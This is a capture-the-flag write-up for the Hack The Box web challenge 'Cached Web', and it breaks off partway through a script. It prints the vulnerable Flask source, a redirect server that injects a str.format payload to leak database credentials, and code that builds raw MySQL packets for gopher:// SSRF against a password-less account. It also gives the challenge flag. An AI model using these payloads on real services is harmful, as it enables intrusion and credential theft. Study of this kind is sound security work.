

# [__Cached Web__](#cached_web)

### Description:
* I made a service for people to cache their favourite websites, come and check it out!

### Objective:
* `str.format` injection to reveal database connection details, UDF library loading through SSRF on MySQL for command execution.

### Difficulty:
* `hard`

### Flag:
* `HTB{n0_p4ss_n0_ch4ll3ng3_0n_auth_p4ck3t_3qu4ls_mysql_pwn4g3}`

### Docker Image:
* `hackthebox/htb:web_cached_web`

### Challenge:

<p align='center'>  
  
</p>

```python
#!/usr/bin/env python
import pymysql, urlparse, hashlib, pycurl, signal, base64, sys, os, re
from flask import Flask, Response, request, render_template, flash, g
from config import setup_db, db_conf, generate
from StringIO import StringIO
from PIL import Image

__author__ = 'makelaris'

app = Flask(__name__)
app.secret_key = generate(69)

setup_db() # Setup database structure

conn = pymysql.connect(**db_conf)
db = conn.cursor()

db.execute('SET GLOBAL connect_timeout=1')
db.execute('SET GLOBAL wait_timeout=4')
db.execute('SET GLOBAL interactive_timeout=4')

class LogRedir(object):
	redirects = 0

	def __init__(self, location):
		type(self).redirects += 1
		self.location = location

	def __iter__(self):
		return self.__dict__.iteritems()

	def toJSON(self):
		from flask.json import loads, dump
		return loads(dumps(self, default=lambda o: o.__dict__, sort_keys=True, ident=4))

def is_html(url):
	try:

		return_headers = StringIO()

		c = pycurl.Curl()
		c.setopt(c.URL, url)
		c.setopt(c.HEADERFUNCTION, return_headers.write)
		c.setopt(c.TIMEOUT, 10)

		resp = c.perform_rs()
		c.close()

	except pycurl.error as e:
		return flash('[*] {}'.format(e), 'danger')

	find_header = lambda r, h: {k.lower(): v.strip() for k, v in [line.split(':', 1) for line in r.getvalue().splitlines() if ':' in line]}.get(h, None)
	location_header = find_header(return_headers, 'location')

	if location_header:
		location = '[+] Did you mean %s ?' % location_header
		return flash(location.format(dest=LogRedir(location_header)), 'warning')

	if re.match('^<!doctype.*>', resp, flags=re.IGNORECASE) is not None:
		return True

	return False

class StderrLog(object):
	def close(self):
		pass

	def __getattr__(self, name):
		return getattr(sys.stderr, name)

from selenium.webdriver import PhantomJS

class Driver(PhantomJS):
	def __init__(self, *args, **kwargs):
		super(Driver, self).__init__(*args, **kwargs)
		self._log = StderrLog()

prepare_image = lambda f: 'data:image/png;base64,{}'.format(base64.b64encode(open(f).read()))

def serve_screenshot_from(url, domain, width=1000, min_height=400, wait_time=10):
	from selenium.webdriver.support.ui import WebDriverWait
	from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

	dcap = dict(DesiredCapabilities.PHANTOMJS)
	dcap['phantomjs.page.settings.userAgent'] = ('HTB/1.0')

	driver = Driver(
		desired_capabilities=dcap,
		service_log_path='/tmp/ghostdriver.log',
		service_args=['--cookies-file=/tmp/cookies.txt', '--ignore-ssl-errors=true', '--ssl-protocol=any']
	)

	driver.set_page_load_timeout(wait_time)
	driver.implicitly_wait(wait_time)

	driver.set_window_position(0, 0)
	driver.set_window_size(width, min_height)

	driver.get(url)

	WebDriverWait(driver, wait_time).until(lambda r: r.execute_script('return document.readyState') == 'complete')

	screenshot = driver.get_screenshot_as_png()

	file_id = generate(14)
	filename = 'screenshots/{}.png'.format(file_id)

	region = Image.open(StringIO(screenshot)).crop((0, 0, width, min_height))
	region.save(filename, 'PNG', optimize=True, quality=95)

	driver.service.process.send_signal(signal.SIGTERM)
	driver.quit()

	if not os.path.exists(filename):
		flash('[*] Something went wrong during caching', 'warning')
		return render_template('index.html')

	screenshot = prepare_image(filename)

	db.execute('INSERT INTO screenshots (url, filename, integrity) VALUES (%s, %s, %s)', (url, filename, hashlib.sha256(screenshot[22:]).hexdigest()))

	flash('[+] Successfully cached {}'.format(domain), 'success')
	return locals()

def serve_cached_web(url, domain):
	db.execute('SELECT filename FROM screenshots WHERE url = %s ORDER BY created_at DESC', (url,))
	screenshot = prepare_image(db.fetchone().get('filename'))

	flash('[+] {} is already cached'.format(domain), 'warning')
	return locals()

def cache_web(url):
	domain = urlparse.urlparse(url).hostname

	db.execute('SELECT COUNT(filename) FROM screenshots WHERE url = %s AND TIMESTAMPDIFF(MINUTE, DATE(created_at), NOW()) >= 1 ORDER BY created_at DESC', (url,))

	if db.fetchone().itervalues().next():
		return serve_cached_web(url, domain)

	if is_html(url):
	 	return serve_screenshot_from(url, domain)

	return locals()

@app.route('/', methods=['GET', 'POST'])
def index():
	if request.method == 'POST':
		return render_template('index.html', cached=True, **cache_web(request.form.get('url', '')))

	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

Looking at the source code, we see that the index function checks if the incoming request methods is `POST` and then passes the `url` value to `cache_web`;

```python
@app.route('/', methods=['GET', 'POST'])
def index():
	if request.method == 'POST':
		return render_template('index.html', cached=True, **cache_web(request.form.get('url', '')))

	return render_template('index.html')
```

The `cache_web` function first executes a query to check the ammount of instances on table `screenshots` where the passed `url` value has been `create_at` within `TIMESTAMPDIFF(MINUTE, DATE(created_at), NOW()) >= 1`, if it has cached the url within the minute it then invokes the `serve_cached_web()` function, and if it hasn't it it first checks if `is_html()` returns `True` and then invokes `serve_sreenshot_from()`.

```python
def cache_web(url):
	domain = urlparse.urlparse(url).hostname

	db.execute('SELECT COUNT(filename) FROM screenshots WHERE url = %s AND TIMESTAMPDIFF(MINUTE, DATE(created_at), NOW()) >= 1 ORDER BY created_at DESC', (url,))

	if db.fetchone().itervalues().next():
		return serve_cached_web(url, domain)

	if is_html(url):
	 	return serve_screenshot_from(url, domain)

	return locals()
```

* The `serve_cached_web()` function executes a query to find the filename location of the cached website and then invokes `prepare_image` with the returned column `filename` from the table `screenshots`.

```python
prepare_image = lambda f: 'data:image/png;base64,{}'.format(base64.b64encode(open(f).read()))

def serve_cached_web(url, domain):
	db.execute('SELECT filename FROM screenshots WHERE url = %s ORDER BY created_at DESC', (url,))
	screenshot = prepare_image(db.fetchone().get('filename'))

	flash('[+] {} is already cached'.format(domain), 'warning')
	return locals()
```
* The `serve_screenshot_from()` function brings a `PhantomJS` instance up and sends it to the requested `url`, it then saves a screenshot of the current browser window using `drive.get_screenshot_as_png()` and executes a `INSERT` statement on the database, the `INSERT` statement includes the requested url, the location under which the screenshot file was saved on the filesystem using `Image.save(filename, format=None, **params)`, and the `sha256sum` of the screenshot contents.

```python
prepare_image = lambda f: 'data:image/png;base64,{}'.format(base64.b64encode(open(f).read()))

def serve_screenshot_from(url, domain, width=1000, min_height=400, wait_time=10):
    from selenium.webdriver.support.ui import WebDriverWait
    from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

    dcap = dict(DesiredCapabilities.PHANTOMJS)
    dcap['phantomjs.page.settings.userAgent'] = ('HTB/1.0')

    driver = Driver(
        desired_capabilities=dcap,
        service_log_path='/tmp/ghostdriver.log',
        service_args=['--cookies-file=/tmp/cookies.txt', '--ignore-ssl-errors=true', '--ssl-protocol=any']
    )

    driver.set_page_load_timeout(wait_time)
    driver.implicitly_wait(wait_time)

    driver.set_window_position(0, 0)
    driver.set_window_size(width, min_height)

    driver.get(url)

    WebDriverWait(driver, wait_time).until(lambda r: r.execute_script('return document.readyState') == 'complete')

    screenshot = driver.get_screenshot_as_png()

    file_id = generate(14)
    filename = 'screenshots/{}.png'.format(file_id)

    region = Image.open(StringIO(screenshot)).crop((0, 0, width, min_height))
    region.save(filename, 'PNG', optimize=True, quality=95)

    driver.service.process.send_signal(signal.SIGTERM)
    driver.quit()

    if not os.path.exists(filename):
        flash('[*] Something went wrong during caching', 'warning')
        return render_template('index.html')

    screenshot = prepare_image(filename)

    db.execute('INSERT INTO screenshots (url, filename, integrity) VALUES (%s, %s, %s)', (url, filename, hashlib.sha256(screenshot[22:]).hexdigest()))

    flash('[+] Successfully cached {}'.format(domain), 'success')
    return locals()
```

# [__is_html()__]()

`PycURL` is a Python interface to `libcurl`, it can be used to fetch objects identified by a URL from a Python program.

```python
class LogRedir(object):
    redirects = 0

    def __init__(self, location):
        type(self).redirects += 1
        self.location = location

    def __iter__(self):
        return self.__dict__.iteritems()

    def toJSON(self):
        from flask.json import loads, dump
        return loads(dumps(self, default=lambda o: o.__dict__, sort_keys=True, ident=4))

def is_html(url):
    try:

        return_headers = StringIO()

        c = pycurl.Curl()
        c.setopt(c.URL, url)
        c.setopt(c.HEADERFUNCTION, return_headers.write)
        c.setopt(c.TIMEOUT, 10)

        resp = c.perform_rs()
        c.close()

    except pycurl.error as e:
        return flash('[*] {}'.format(e), 'danger')

    find_header = lambda r, h: {k.lower(): v.strip() for k, v in [line.split(':', 1) for line in r.getvalue().splitlines() if ':' in line]}.get(h, None)
    location_header = find_header(return_headers, 'location')

    if location_header:
        location = '[+] Did you mean %s ?' % location_header
        return flash(location.format(dest=LogRedir(location_header)), 'warning')

    if re.match('^<!doctype.*>', resp, flags=re.IGNORECASE) is not None:
        return True

    return False
```

The `is_html()` function first initiates a `pycurl.Curl()` object, the `HEADERFUNCTION` method argument accepts a Python object that has a `write` method in order to save the response headers from the file transfer performed by the `Curl.perform_rs()` function. The `find_header` function is then used to convert the response headers tuple into a dictionary whereas the item value is the header name, and the key value is the header value. In an attempt to detect a redirect it searches if there's a `Location` header present inside the dictionary, it then logs all redirects using the `LogRedir()` object. Finally it checks if there's a `<!DOCTYPE html>` opening tag included at the top of the response body, this is used to indicate if the document is HTML.

```
➜  ~ curl -sSL -D - http://google.com/ -o /dev/null
HTTP/1.1 301 Moved Permanently
Location: http://www.google.com/
Content-Type: text/html; charset=UTF-8
Date: Sun, 12 Apr 2020 16:08:59 GMT
Expires: Tue, 12 May 2020 16:08:59 GMT
Cache-Control: public, max-age=2592000
Server: gws
Content-Length: 219
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN

HTTP/1.1 200 OK
Date: Sun, 12 Apr 2020 16:08:59 GMT
Expires: -1
Cache-Control: private, max-age=0
Content-Type: text/html; charset=ISO-8859-1
P3P: CP="This is not a P3P policy! See g.co/p3phelp for more info."
Server: gws
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN
Set-Cookie: 1P_JAR=2020-04-12-16; expires=Tue, 12-May-2020 16:08:59 GMT; path=/; domain=.google.com; Secure
Set-Cookie: NID=202=VWOAp6hgWJBuH-VoD3Bl7Z40nDjSpxedNlucWFoxvrt4uKGEcM0NzFcfcH-WDIoR4VK7AyQEKzwgqw7mC7jwMlJy8uyANqbAuWU_O_YXkaLefsUoPts8tODoV2lxxIsecqxCNVt2j4fjm9DV_qmavNrEhqVMuXn1nfCT0359Mqo; expires=Mon, 12-Oct-2020 16:08:59 GMT; path=/; domain=.google.com; HttpOnly
Accept-Ranges: none
Vary: Accept-Encoding
Transfer-Encoding: chunked
```

<p align='center'>  
  
</p>

# [__new string formatting, who dis? 📱__]()

The implementation here is susceptible to `str.format()` injection.

```python
find_header = lambda r, h: {k.lower(): v.strip() for k, v in [line.split(':', 1) for line in r.getvalue().splitlines() if ':' in line]}.get(h, None)
location_header = find_header(return_headers, 'location')

if location_header:
		location = '[+] Did you mean %s ?' % location_header
		return flash(location.format(dest=LogRedir(location_header)), 'warning')
```

Let's setup a server serving a redirect, the `Location` header value will consist of a replacement field containing the name of the keyword argument `dest`, the argument returns a copy of the object on the replacement field, resulting in us getting the reference memory address of the `LogRedir()` object.

```python
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer

class MyServer(TCPServer):
	allow_reuse_address = True

class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest}')
		return self.end_headers()

MyServer(('', 1337), HTTP_RequestHandler).serve_forever()
```

<p align='center'>  
  
</p>

Looking through the `str.format()` syntax we see that we can access internal attributes and items of objects by controlling the format string.

<p align='center'>  
  
</p>

We'll now attempt to retrieve the `db_conf` variable which contains the mysql database credentials used for `pymysql.connect()`.

```python
from config import setup_db, db_conf, generate

setup_db() # Setup database structure

conn = pymysql.connect(**db_conf)
db = conn.cursor()
```

Since the variable is imported from the `config.py` file, we'll utilise `class inheritance` to access the variable through the global namespace.

```python
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer

class MyServer(TCPServer):
	allow_reuse_address = True

class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest.__init__.__globals__[db_conf]}')
		return self.end_headers()

MyServer(('', 1337), HTTP_RequestHandler).serve_forever()
```

<p align='center'>  
  
</p>

# [__SSRF Connoeisur 🥂__]()

The `is_html()` function is also prone to SSRF, if we were to target the MySQL instance, the MySQL TCP application layer wouldn't be able to parse the bloated ASCII data from the HTTP request we sent.

```
root@deadbeef:/# curl --trace-ascii /dev/stdout -H 'Content-Type: text/plain' --data 'SELECT SLEEP(1);' localhost:3306/ --max-time 1 --output -
== Info:   Trying 127.0.0.1...
== Info: TCP_NODELAY set
== Info: Connected to localhost (127.0.0.1) port 3306 (#0)
=> Send header, 125 bytes (0x7d)
0000: POST / HTTP/1.1
0011: Host: localhost:3306
0027: User-Agent: curl/7.58.0
0040: Accept: */*
004d: Content-Type: text/plain
0067: Content-Length: 16
007b:
=> Send data, 16 bytes (0x10)
0000: SELECT SLEEP(1);
== Info: upload completely sent off: 16 out of 16 bytes
<= Recv data, 90 bytes (0x5a)
0000: 5.7.29-0ubuntu0.18.04.1.......s%+|K.....................R<*k<je.
0040: nRx.mysql_native_password.
<= Recv data, 37 bytes (0x25)
0000: !......#08S01Got packets out of order
== Info: Connection #0 to host localhost left intact
5.7.29-0ubuntu0.18.04.1s%+|K���R<*k<jenRxmysql_native_password!��#08S01Got packets out of order
```

Not to mention that the requester is configured to only sent `GET` requests, luckily `pycurl` support a plethora of schemes other than HTTP.

<p align='center'>  
  
</p>

It alsos supports the `gopher://` scheme, which gives us the ability to send a reconstructed TCP/IP packet over to the MySQL port.

<p align='center'>  
  
</p>

### MySQL Protocol Overview

The server listens for connections on a TCP/IP port or a local socket. When a client connects, a handshake and authentication are performed. If successful, the session begins. The client sends a command, and the server responds with a data set or a message appropriate for the type of command that was sent. When the client is finished, it sends a special command telling the server it is done, and the session is terminated. The basic unit of communication is the application-layer packet. Commands consist of one packet. Responses may include several.

<p align='center'>  
  
</p>


### MySQL Authentication Model

```python
import requests, re
from HTMLParser import HTMLParser
host, port = 'host', 1337
HOST = 'http://%s:%d/' % (host, port)
resp = HTMLParser().unescape(requests.post(HOST, {'url': 'http://host.docker.internal:1338/'}).text)

'''
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer
class MyServer(TCPServer):
	allow_reuse_address = True
class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest.__init__.__globals__[db_conf]}')
		return self.end_headers()
MyServer(('', 1338), HTTP_RequestHandler).serve_forever()
'''

db_conf = ast.literal_eval(re.sub(',([^,]*)>', '', re.search('{(.*)}', resp).group(0)))

'''
{
	'autocommit': True,
	'host': '127.0.0.1',
	'charset': 'utf8mb4',
	'user': 'user_127a96',
	'database': 'db_4e132e',
	'password': '',
	'port': 3306
}
'''

db_name = db_conf.get('database') # db_4e132e
db_user = db_conf.get('user') # user_127a96
```

By default, MySQL uses unencrypted connections between the client and the server. In order to combat eavesdropping and man-in-the-middle attacks the [Secure Password Authentication](https://dev.mysql.com/doc/internals/en/secure-password-authentication.html) plugin (`mysql_native_password`) implements a challenge-response mechanism that does not require a encrypted connection.

### MySQL Server Password

By default, passwords are stored in the `mysql.user` table and are hashed using the `PASSWORD` function which is just a two-stage `SHA1` digest:

```sql
mysql> SELECT DISTINCT password FROM mysql.user WHERE user = 'root';
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
mysql> SELECT PASSWORD('password');
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
mysql> SELECT SHA1(UNHEX(SHA1('password')));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

#### The authentication handshake

<p align='center'>  
  
</p>

After the TCP connection phase, initiated by the client, the MySQL
authentication handshake continues as follows:

1. The server sends a `Server Greeting` packet containing a *salt* (`s`);

2. The client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator;

3. The server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

    where `SHA1(SHA1(password))` is the two-stage SHA1 digest of the password,
    stored in the `mysql.user` table; the server does not know the cleartext
    password nor its SHA1 digest.

# [__less passwords... mo' hacking 🐱‍💻__]()

The database configurations details in `db_conf` contain a password-less user, this gives us the ability to send a reconstructed TCP/IP packet to the MySQL instance in `PLAIN Authentication` using the `gopher://` scheme, whereas the only server response packets are the query results and there's no challenge-response mechanism involved.

<p align='center'>  
  
</p>

#### MySQL Protocol Digging

We'll now replicate the command packet, we create a password-less user and capture the sent packets;

```sql
mysql> CREATE USER 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0.00 sec)

mysql> GRANT ALL ON *.* TO 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0.00 sec)w

mysql> CREATE DATABASE test;
Query OK, 1 row affected (0.00 sec)

mysql> CREATE TABLE test.flag (flag TEXT);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO test.flag (flag) VALUES ('HTB{deadbeef}');
Query OK, 1 row affected (0.01 sec)
```

We'll connect through `mysql-client` and capture the packets using `tcpdump -i lo port 3306 -w mysql.pcay`

<p align='center'>  
  
</p>

* [mysql.pcay](htb/mysql.pcay) (`24b8ddc06d277262f6998ea6a45ddca251e010427e5d818aba17335357146f86`)

```
root@deadbeef:/# mysql --host=127.0.0.1 --port=3306 --user=ssrf_user --database=test --ssl-mode=DISABLED
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SELECT * FROM flag;
+---------------+
| flag          |
+---------------+
| HTB{deadbeef} |
+---------------+
1 row in set (0.00 sec)
```

<p align='center'>  
  
</p>

#### MySQL Packet

A MySQL Packet consists of 4 byte of header + payload, it's a communication message unit used for the packet exchange between the client/server.

|Type         | Name	       | Description
|-------------|----------------|------------
| int<3>      | payload_length | Length of the payload. The number of bytes in the packet beyond the initial 4 bytes that make up the packet header
| int<1>      | sequence_id    | Sequence ID, it's incremental starting from 0 but resets after a command packet
| string<var> | payload        | [len=payload_length] payload of the packet

When we examine the captured packets, we notice the following structure;

| Name             | Value                                       
|------------------|-------                              
| `payload_length` | `5b 00 00`
| `sequence_id`    | `00`
| `payload`        | `0a 35 2e 37 2e 32 39 2d 30 75 62 75 6e 74 ...`

<p align='center'>  
  
</p>

### Connection Phase packet

<p align='center'>  
  
</p>

The session between a client and a server begins with a authenticating handshake. Before it can begin, the server checks whether the host that the client is connecting from is even allowed to connect to the server. When the client connects to the server the servers sends a `Initial Handshake Packet` and the client replies with the `Handshake Response Packet`.

#### Initial Handshake Packet

|Type         | Name	                | Description
|:-------------:|:-------------------------:|------------
| int<1>      | protocol_version        | Protocol version number. Decimal 10 (`0x0A`) in recent versions
| string<NUL> | server_version          | Zero-terminated server version string. The length is variable, and is calculated according to the formula in the Length column. The subsequent offsets are a function of the length of this field
| int<4>      | connection_id           | Internal MySQL ID of the thread that is handling this connection Low byte first
| string[8]   | auth_plugin_data_part_1 | The first 8 bytes of the 20-byte random seed string
| int<1>      | filler_1                | `0x00`
| int<2>      | capability_flag_1       | Lower 2 bytes of the [`Protocol::CapabilityFlags`](https://dev.mysql.com/doc/internals/en/capability-flags.html#packet-Protocol::CapabilityFlags) (**optional**)
| int<1>      | character_set           | The code of the default collation. A character set collation is a set of rules that defines a sequential order among characters. A list of available collations and their codes can be obtained by executing `SHOW COLLATION LIKE '%'` or you could check [`Protocol::CharacterSet`](https://dev.mysql.com/doc/internals/en/character-set.html#packet-Protocol::CharacterSet) (**optional**)
| int<2>      | status_flags            | [`Protocol::StatusFlags`](https://dev.mysql.com/doc/internals/en/status-flags.html#packet-Protocol::StatusFlags) (**optional**)
| int<2>      | capability_flags_2      | Upper 2 bytes of the [`Protocol::CapabilityFlags`](https://dev.mysql.com/doc/internals/en/capability-flags.html#packet-Protocol::CapabilityFlags)
**if capabilities & CLIENT_PLUGIN_AUTH {**
| int<1>      | auth_plugin_data_len    | Length of the combined `auth_plugin_data`, if `auth_plugin_data_len` is > 0
**} else {**
| int<1>      | 00                      | `0x00`
**}**
| string[10]  | reserved                | All 0s
| string[8]   | auth_plugin_data_part_2 | Rest of the plugin provided data, $len=MAX(13, length of `auth_plugin_data` - 8)
**if capabilities & CLIENT_PLUGIN_AUTH {**
| NULL        | auth_plugin_name        | Name of the `auth_method` that the `auth_plugin_data` belongs to
**}**

When we examine the captured packets, we notice the following structure;

| name                      | value                                                                                                  |
|---------------------------|--------------------------------------------------------------------------------------------------------|                  
| `protocol_version`        | `0a`                                                                                                   |
| `server_version`          | `35 2e 37 2e 32 39 2d 30 75 62 75 6e 74 75 30 2e 31 38 2e 30 34 2e 31 00` (`5.7.29-0ubuntu0.18.04.1`)  |
| `connection_id`           | `23 00 00 00`                                                                                          |
| `auth_plugin_data_part_1` | `34 3c 64 6e 2a 43 7e 15`                                                                              |
| `filler_1`                | `00`                                                                                                   |
| `capability_flag_1`       | `ff ff`                                                                                                |
| `character_set`           | `08` (`latin1 COLLATE latin1_swedish_ci`)                                                              |
| `status_flags`            | `02 00`                                                                                                |
| `capability_flags_2`      | `ff c1`                                                                                                |
| `auth_plugin_data_len`    | `15` (`21`)                                                                                            |
| `reserver`                | `00 00 00 00 00 00 00 00 00 00`                                                                        |
| `auth_plugin_data_part_2` | `1b 79 11 6a 1e 6c 73 18 31 6f 46 6a 00`                                                               |
| `auth_plugin_name`        | `6d 79 73 71 6c 5f 6e 61 74 69 76 65 5f 70 61 73 73 77 6f 72 64 00` (`mysql_native_password`)          |

<p align='center'>  
  
</p>

#### Handshake Response Packet

|Type                 | Name	                  | Description
:-------------------|:-------------------------|------------
| int<4>              | capability flags          | Capability flags of the client as defined in [`Protocol::CapabilityFlags`](https://dev.mysql.com/doc/internals/en/capability-flags.html#packet-Protocol::CapabilityFlags)
| int<4>              | max-packet size           | Max size of a command packet that the client wants to send to the server (`2 ** 24 -1`)
| int<1>              | character set             | Connection's default character set as defined in [`Protocol::CharacterSet`](https://dev.mysql.com/doc/internals/en/character-set.html#packet-Protocol::CharacterSet)
| string[23]          | reserved (all [0])        |
| string[NUL]         | username                  | Name of the SQL account which client wants to log in
|  **if capabilities & CLIENT_PLUGIN_AUTH_LENENC_CLIENT_DATA {**
| lenenc-int          | length of auth-response   | Length of `auth-response`
| string[n]           | auth-response             | Opaque authentication response data generated by [`Authentication Method`](https://dev.mysql.com/doc/internals/en/authentication-method.html) indicated by the `plugin_name` field
|  **} else if capabilities & CLIENT_SECURE_CONNECTION {**
| int<1>              | length of auth-response   | Length of `auth-response`
| string[n]           | auth-response             | Opaque authentication response data generated by [`Authentication Method`](https://dev.mysql.com/doc/internals/en/authentication-method.html) indicated by the `plugin_name` field
| **} else {**
| string[NUL]         | auth-response             | Opaque authentication response data generated by [`Authentication Method`](https://dev.mysql.com/doc/internals/en/authentication-method.html) indicated by the `plugin_name` field
| **}**
|  **if capabilities & CLIENT_CONNECT_WITH_DB {**
| string[NUL]         | database                  | Initial database for the connection
| **}**
| **if capabilities & CLIENT_PLUGIN_AUTH {**
| string[NUL]         | auth plugin name          | The [`Authentication Method`](https://dev.mysql.com/doc/internals/en/authentication-method.html) used by the client to generate auth-response value in this packet
|  **}**
|  **if capabilities & CLIENT_CONNECT_ATTRS {**
| lenenc-int          | length of all key-values  | Length of `CLIENT_CONNECT_ATTRS`
| lenenc-str          | key                       | `CLIENT_CONNECT_ATTRS` key name
| lenenc-str          | value                     | `CLIENT_CONNECT_ATTRS` value name
|   **if-more data in 'length of all key-values', more keys and value pairs**
|  **}**

When we examine the captured packets, we notice the following structure;

| Name                              | Value                                       
|-----------------------------------|-------                              
| `capability flags`                | `5b 00 00`
| `max packet size`                 | `00 00 00 01` (`2 ** 24 -1`)
| `character set`                   | `08`
| `reserved`                        | `00` * 23
| `username`                        | `73 73 72 66 5f 75 73 65 72 00` (`ssrf_user`[NUL])
| `database`                        | `74 65 73 74 00` (`test`[NUL])
| `auth_plugin_name`                | `6d 79 73 71 6c 5f 6e 61 74 69 76 65 5f 70 61 73 73 77 6f 72 64 00` (`mysql_native_password`)
| `len(CLIENT_CONNECT_ATTRS)`       | `65` (`101`)
| `len(CLIENT_CONNECT_ATTRS_name)`  | `03`
| `CLIENT_CONNECT_ATTRS_name`       | `5f 6f 73`
| `len(CLIENT_CONNECT_ATTRS_value)` | `05`
| `CLIENT_CONNECT_ATTRS_value`      | `4c 69 6e 75 78`
| `len(CLIENT_CONNECT_ATTRS_name)`  | `0c` (`12`)
| `CLIENT_CONNECT_ATTRS_name`       | `5f 63 6c 69 65 6e 74 5f 6e 61 6d 65` (`_client_name`)
| `len(CLIENT_CONNECT_ATTRS_value)` | `08`
| `CLIENT_CONNECT_ATTRS_value`      | `6c 69 62 6d 79 73 71 6c`
| `len(CLIENT_CONNECT_ATTRS_name)`  | `04`
| `CLIENT_CONNECT_ATTRS_name`       | `5f 70 69 64`
| `len(CLIENT_CONNECT_ATTRS_value)` | `04`
| `CLIENT_CONNECT_ATTRS_value`      | `34 31 38 35`
| `len(CLIENT_CONNECT_ATTRS_name)`  | `0f` (`15`)
| `CLIENT_CONNECT_ATTRS_name`       | `5f 63 6c 69 65 6e 74 5f 76 65 72 73 69 6f 6e` (`_client_version`)
| `len(CLIENT_CONNECT_ATTRS_value)` | `06`
| `CLIENT_CONNECT_ATTRS_value`      | `35 2e 37 2e 32 39`
| `len(CLIENT_CONNECT_ATTRS_name)`  | `09`
| `CLIENT_CONNECT_ATTRS_name`       | `5f 70 6c 61 74 66 6f 72 6d` (`_platform`)
| `len(CLIENT_CONNECT_ATTRS_value)` | `06`
| `CLIENT_CONNECT_ATTRS_value`      | `78 38 36 5f 36 34` (`x86_64`)
| `len(CLIENT_CONNECT_ATTRS_name)`  | `0c` (`12`)
| `CLIENT_CONNECT_ATTRS_name`       | `70 72 6f 67 72 61 6d 5f 6e 61 6d 65` (`program_name`)
| `len(CLIENT_CONNECT_ATTRS_value)` | `05`
| `CLIENT_CONNECT_ATTRS_value`      | `6d 79 73 71 6c` (`mysql`)

<p align='center'>  
  
</p>

#### MySQL Text Protocol

Once the authentication is complete, the client begins sending commands to the server using command packets.

| Type         | Name     | Description
|--------------|----------|-------------
| int<1>       | command  | `0x03`: [`COM_QUERY`](https://dev.mysql.com/doc/internals/en/text-protocol.html)
| string[EOF]  | query    | The query the server shall execute

<p align='center'>  
  
</p>

With the `COM_QUERY` command, the client sends the server an SQL statement to be executed immediately.

<p align='center'>  
  
</p>

When we examine the captured packets, we notice the following structure;

| Name             | Value                                       
|------------------|-------                              
| `payload_length` | `13 00 00` (`19`)
| `sequence_id`    | `00`
| `COM_QUERY`      | `03`
| `query`          | `53 45 4c 45 43 54 20 2a 20 46 52 4f 4d 20 66 6c 61 67` (`SELECT * FROM flag`)

### Reconstructing the Handshake response & `COM_QUERY` packet

```python
import pycurl, struct

def construct_handshake_response(user):
	connects_atrs_data = b''

	connect_attrs = {
		'_os': 'Linux',
		'_client_name': 'libmysql',
		'_pid': '1337',
		'_client_version': '5.7.29',
		'_platform': '_x86_64',
		'program_name': 'mysql'
	}

	for name, value in connect_attrs.items():
		connects_atrs_data += struct.pack('B', len(name)) + name    # len(CLIENT_CONNECT_ATTRS_name) + CLIENT_CONNECT_ATTRS_name
		connects_atrs_data += struct.pack('B', len(value)) + value  # len(CLIENT_CONNECT_ATTRS_value) + CLIENT_CONNECT_ATTRS_value

	connect_attrs_data = struct.pack('B', len(connects_atrs_data)) + connects_atrs_data # len(CLIENT_CONNECT_ATTRS)	+ CLIENT_CONNECT_ATTRS

	auth_response_packet = [
		0xa3 + len(user) - 4, 0x00, 0x00,                           # payload_length           int<3>
		0x01,                                                       # sequence_id              int<1>
		0x85, 0xa6, 0x3f, 0x20,                                     # capability_flags         int<4> SELECT * FROM performance_schema.session_connect_attrs WHERE processlist_id = CONNECTION_ID();
		0x00, 0x00, 0x00, 0x01,                                     # max_packet_size          int<4> 2 ** 24 -1
		0x08,                                                       # character_set            int<1>
		] + list(xrange(23)) + [                                    # reserved                 string[23]
